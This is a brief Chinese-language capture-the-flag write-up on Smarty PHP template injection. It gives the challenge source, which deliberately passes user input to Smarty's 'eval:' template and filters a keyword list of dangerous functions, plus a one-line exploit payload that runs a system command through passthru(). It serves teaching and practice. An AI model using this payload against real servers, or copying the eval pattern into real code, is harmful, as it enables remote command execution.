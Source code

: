 # 聪明的PHP - Smarty PHP模板注入  

题目过滤了system()等PHP函数和系统命令，但漏了一个passthru()函数，可以执行系统命令。  

Exp:  
`?p={if passthru('whoami')}{/if}`  


题目源码：  
```php
<?php
include('./libs/Smarty.class.php');
echo "pass a parameter and maybe the flag file's filename is random :>";
$smarty = new Smarty();
if($_GET){
    highlight_file('index.php');
    foreach ($_GET AS $key => $value)
    {
        print $key."\n";
        if(preg_match("/flag|\/flag/i", $value)){

            $smarty->display('./template.html');

        }elseif(preg_match("/system|readfile|gz|exec|eval|cat|assert|file|fgets/i", $value)){

            $smarty->display('./template.html');

        }else{
            $smarty->display("eval:".$value);
        }

    }
}
?>
```